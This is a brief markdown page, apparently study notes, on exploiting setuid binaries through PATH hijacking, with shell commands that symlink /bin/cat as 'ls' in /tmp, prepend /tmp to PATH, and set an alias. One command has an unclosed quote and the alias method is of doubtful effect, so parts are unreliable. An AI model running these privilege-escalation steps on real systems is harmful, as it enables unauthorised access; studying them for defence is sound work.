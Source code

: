 # Setuid

In this section we will look at ways to exploit a setuid

## Enviornment Variable Path

In writeable directory /tmp or /tmp/var make a symbolic link to binary

``` 
$cd /tmp
/tmp:~> ln -s /bin/cat ls
export PATH=/tmp/:$PATH
```

## Setting an Alias

Set an alias, and make sure the path is accessible

```
alias ls="cat"
export PATH="/tmp/:$PATH
```